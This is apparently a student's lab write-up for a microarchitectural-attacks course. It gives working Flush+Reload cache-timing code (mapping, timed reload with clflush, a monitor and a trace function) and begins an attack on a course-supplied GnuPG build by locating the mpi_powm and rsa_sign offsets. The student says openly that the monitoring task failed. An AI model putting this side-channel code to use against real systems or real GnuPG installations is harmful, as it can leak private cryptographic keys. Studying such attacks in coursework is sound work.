



# Assignment 1: Flush+Reload

## Task 1 - Use mmap. (10%)

The implementation of `map` can be found in the file `task1/task1.c` starting at line 10.

```c
void *map(char *file_name, uint64_t offset) {
    int fd = open(file_name, O_RDONLY);
    if (fd < 0) {
        printf("Cannot open file: %s\n", file_name);
        return NULL;
    }

    long page_size = sysconf(_SC_PAGESIZE);
    uint64_t page_base = offset & ~(page_size - 1);   // align offset to page
    uint64_t page_offset = offset - page_base;        // offset inside mapped page

    // Map exactly one page
    void *map_base = mmap(NULL, page_size, PROT_READ, MAP_PRIVATE, fd, page_base);
    close(fd);

    if (map_base == MAP_FAILED) {
        printf("mmap failed\n");
        return NULL;
    }

    return (char*)map_base + page_offset;
}
```

## Task 2 - Implement the Flush+Reload Function (10%)

The implementation of `flush_reload` can be found in the file `task2/task2.c` starting at line 7.

```c
uint32_t flush_reload(void *p) {
    uint32_t cycles;

    // Cast pointer to address
    volatile unsigned char *addr = (volatile unsigned char*)p;

    asm volatile (
        // Fence previous instructions and memory loads
        "mfence\n"
        "lfence\n"
        // Messure cycles
        "rdtsc\n"
        // Save low 32 bits of start in edi
        "movl %%eax, %%edi\n"
        // Read the byte at addr into al (this loads it into cache)
        "movb (%1), %%al\n"
        // Fence  memory load
        "lfence\n"
        // Mesure cycles again
        "rdtsc\n"
        // Calculate operation cycles
        "subl %%edi, %%eax\n"
        // Flush
        "clflush 0(%1)\n"
        : "=a" (cycles)
        : "c" (addr)
        : "%edi", "%edx", "memory"
    );

    return cycles;
}
```

The CLI wrapper implemented in `task2/task2_test.c` was used to measure the access times of the file
`/etc/passwd` and wrote the measured times to `task2/task2.csv`. The Pythom script `task2/task2.py` was used
to create the following histogram of the access times.



CLI Usage:

```bash
❯ ./task2.bin /etc/passwd
Wrote task2.csv with 256 samples.
❯ python task2.py
Cached:   mean=51.89, median=36.00, std=17.88, min=36, max=72
Uncached: mean=324.70, median=288.00, std=167.09, min=252, max=1548
Saved histogram to task2.png
```

## Task 3 - Use Flush+Reload to monitor access to memory (10%)

The implementation of `flush_reload` can be found in the file `task3/task3.c` starting at line 8.

```c
int monitor(void* p, uint32_t period, uint64_t maxwait) {
    uint64_t start_time = __rdtsc();
    uint64_t elapsed_time = 0;

    while (elapsed_time < maxwait) {
        // Check only after period cycles
        while ((__rdtsc() - start_time) < period) {
            // Sleep until next period is starting
        }

        // Use flush+reload of task 2
        uint32_t cycles = flush_reload(p);

        // Threshold comes from task2 measurement where the maximum
        // cached cycle count was 72. See solution.md, section "Task 2"
        if (cycles < 100) {
            // Memory area was cached before
            return 1;
        }

        // Update time
        elapsed_time = __rdtsc() - start_time;
    }

    // No access detected in given maxwait time
    return 0;
}
```

## Task 4 - Test monitoring accuracy (10%)

Based on the plot, where the overlap probability remains zero, the most likely issue is that the implementation of the `flush_reload` function or monitoring logic is not correctly detecting memory accesses.
At this point I sadly hadn't enought time to deep dive into the implementation issues and couldn't identify what was wrong with my implementation. So I will work with the results provided here.

The results are probaly caused by:

### 1. Flush+Reload Not Detecting Accesses:

If `flush_reload()` isn’t working as expected (e.g., due to incorrect memory access detection or misalignment), it will fail to detect any memory accesses, which leads to no overlap being detected.

As I check the cycle counts by printing them during `flush_reload()` to ensure they are correct and that memory accesses are being properly registered, it seems to be working. So I don't understand why it isn't working at the attack. Especially as the results of task 2 indicate a correct access time measurement.

### 2. Memory Mapping/Access Timing Issue:

If the memory access event from `frtest.txt` happens outside the time window or tolerance range of `monitor.txt` events, it will result in no overlap.
As I tried to finetune and adjust the tolerance value of the script to read the result data, it doesn't matter if the tolerance was low or high (tried with values between 10 amd 100000).

Sadly I couldn't identify where the error is comming from...



Command output:

```bash
tim@pc18:~/microarchitectural-attacks-and-defenses-ws2526/assignment-01/solution/task4$ ./task4.sh testfile.txt 123
Running experiments on file=testfile.txt offset=123

=== Period 1000 cycles ===
Running frtest...
  frtest done → results/period_1000/frtest.txt
Running monitor...
  monitor done → results/period_1000/monitor.txt

=== Period 2000 cycles ===
Running frtest...
  frtest done → results/period_2000/frtest.txt
Running monitor...
  monitor done → results/period_2000/monitor.txt

=== Period 3000 cycles ===
Running frtest...
  frtest done → results/period_3000/frtest.txt
Running monitor...
  monitor done → results/period_3000/monitor.txt

=== Period 4000 cycles ===
Running frtest...
  frtest done → results/period_4000/frtest.txt
Running monitor...
  monitor done → results/period_4000/monitor.txt

=== Period 5000 cycles ===
Running frtest...
  frtest done → results/period_5000/frtest.txt
Running monitor...
  monitor done → results/period_5000/monitor.txt

=== Period 6000 cycles ===
Running frtest...
  frtest done → results/period_6000/frtest.txt
Running monitor...
  monitor done → results/period_6000/monitor.txt

=== Period 7000 cycles ===
Running frtest...
  frtest done → results/period_7000/frtest.txt
Running monitor...
  monitor done → results/period_7000/monitor.txt

=== Period 8000 cycles ===
Running frtest...
  frtest done → results/period_8000/frtest.txt
Running monitor...
  monitor done → results/period_8000/monitor.txt

=== Period 9000 cycles ===
Running frtest...
  frtest done → results/period_9000/frtest.txt
Running monitor...
  monitor done → results/period_9000/monitor.txt

=== Period 10000 cycles ===
Running frtest...
  frtest done → results/period_10000/frtest.txt
Running monitor...
  monitor done → results/period_10000/monitor.txt

=== Period 11000 cycles ===
Running frtest...
  frtest done → results/period_11000/frtest.txt
Running monitor...
  monitor done → results/period_11000/monitor.txt

=== Period 12000 cycles ===
Running frtest...
  frtest done → results/period_12000/frtest.txt
Running monitor...
  monitor done → results/period_12000/monitor.txt

=== Period 13000 cycles ===
Running frtest...
  frtest done → results/period_13000/frtest.txt
Running monitor...
  monitor done → results/period_13000/monitor.txt

=== Period 14000 cycles ===
Running frtest...
  frtest done → results/period_14000/frtest.txt
Running monitor...
  monitor done → results/period_14000/monitor.txt

=== Period 15000 cycles ===
Running frtest...
  frtest done → results/period_15000/frtest.txt
Running monitor...
  monitor done → results/period_15000/monitor.txt

=== Period 16000 cycles ===
Running frtest...
  frtest done → results/period_16000/frtest.txt
Running monitor...
  monitor done → results/period_16000/monitor.txt

=== Period 17000 cycles ===
Running frtest...
  frtest done → results/period_17000/frtest.txt
Running monitor...
  monitor done → results/period_17000/monitor.txt

=== Period 18000 cycles ===
Running frtest...
  frtest done → results/period_18000/frtest.txt
Running monitor...
  monitor done → results/period_18000/monitor.txt

=== Period 19000 cycles ===
Running frtest...
  frtest done → results/period_19000/frtest.txt
Running monitor...
  monitor done → results/period_19000/monitor.txt

=== Period 20000 cycles ===
Running frtest...
  frtest done → results/period_20000/frtest.txt
Running monitor...
  monitor done → results/period_20000/monitor.txt

All experiments completed.
Results stored under: results/
```

## Task 5 - Create an Access Trace (20%)

The implementation of `fr_trace` can be found in the file `task5/task5.c` starting at line 8.

```c
void fr_trace(void *p1, void *p2, uint32_t period, uint32_t count, uint32_t *trace) {
    uint64_t start_time = __rdtsc();

    for (uint32_t i = 0; i < count; ++i) {

        uint64_t elapsed_time = 0;

        // Check only after period cycles
        while ((__rdtsc() - start_time) < period) {
            // Sleep until next period is starting
        }

        // Measure the reload times for p1 and p2
        uint32_t cycles_p1 = flush_reload(p1);
        uint32_t cycles_p2 = flush_reload(p2);

        // Store the results in trace[2*i] and trace[2*i + 1]
        trace[2 * i] = cycles_p1;
        trace[2 * i + 1] = cycles_p2;

        // Update elapsed time for next period calculation
        elapsed_time = __rdtsc() - start_time;
    }
}
```

Plot:



Command output:

```bash
tim@pc18:~/microarchitectural-attacks-and-defenses-ws2526/assignment-01/solution$ /home/victim/rattle /etc/passwd 64 256 &
[1] 43426
tim@pc18:~/microarchitectural-attacks-and-defenses-ws2526/assignment-01/solution$ ./task5/task5.bin /etc/passwd 64 256
tim@pc18:~/microarchitectural-attacks-and-defenses-ws2526/assignment-01/solution$ ls
Makefile  solution.h  solution.md  task1  task2  task3  task4  task5  trace.out
```

## Task 6 - Attack GnuPG (40%)

The implementation of the binary to perform the attack can be found in `task6/task6.c`.

The offsets to use can be identified by using the command `nm` and than `grep` for the interessing functions `mpi_powm` and `rsa_sign`. That leads to the offset 874656 (0xd58a0) and 762750 (0xba37e).

```bash
❯ nm ../../material/madgpg > nm_madpgp.log
❯ grep -E "rsa_sign|mpi_powm" nm_madpgp.log
00000000000d58a0 T mpi_powm
00000000000ba37e T rsa_sign
```
